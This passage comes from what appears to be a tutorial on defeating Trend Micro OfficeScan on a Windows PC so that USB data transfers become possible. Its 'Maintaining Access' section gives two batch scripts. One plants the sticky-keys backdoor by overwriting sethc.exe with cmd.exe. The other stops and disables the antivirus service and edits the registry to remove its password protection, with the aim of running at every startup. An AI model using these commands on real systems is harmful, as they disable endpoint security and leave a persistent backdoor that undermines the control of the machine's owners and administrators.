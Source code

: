 This method is one at a time use only. I meant that you have to repeat these steps again if you reboot your PC. Further action needed if you want to maintain the access which will be explained at the next section.

![Unable to perform data transfer using flash disk](https://farm6.staticflickr.com/5701/21186678978_5c56b88ae0_o_d.png)

Figure 5\. Unable to perform data transfer using flash disk

![Disabling Trend Micro Unauthorized change](https://farm1.staticflickr.com/639/21186437430_75e54e5bd6_o_d.png)

Figure 6\. Disabling Trend Micro Unauthorized change

![Able to perform data transfer using flash disk](https://farm6.staticflickr.com/5754/21187638829_08bc335352_o_d.png)

Figure 7\. Able to perform data transfer using flash disk

![Unlock office scan agent](https://farm1.staticflickr.com/733/21363745242_b5a3e95982_o_d.png)

Figure 8\. Unlock office scan agent

<div class="video-container"><iframe src="https://www.youtube.com/embed/OGkWyzfLkm8" frameborder="0" allowfullscreen=""></iframe></div>

## 4\. Maintaining Access

The maintaining access here means that the steps on Section 3 don't have to be repeated the next time we boot the PC. Instead we will configure for the steps above to run at startup, to do that we need to know the command line base of the above methods. Code 1 contains a simple command to replace 'sethc.exe' with 'cmd.exe'. Code 2 contains commands to stop and disable Trend Micro Unauthorized Change Service, followed by editing 'NoPwdProtect' key registry.

<table><caption>Code 1\. Replace-sethc-with-cmd.bat</caption>

<tbody>

<tr>

<th style="color: green; background-color:black;">`

<pre>copy C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe pause</pre>

`</th>

</tr>

</tbody>

</table>

<table><caption>Code 2\. Disable-Micro-Trend-Office-Scan.bat</caption>

<tbody>

<tr>

<th style="color: green; background-color:black;">`

<pre>		sc stop TMBMServer
			sc config TMBMServer start= disabled
			reg add HKEY_LOCAL_MACHINE\SOFTWARE\TrendMicro\PC-cillinNTCorp\CurrentVersion\Misc. /v NoPwdProtect /t REG_DWORD /d 1 /f
</pre>

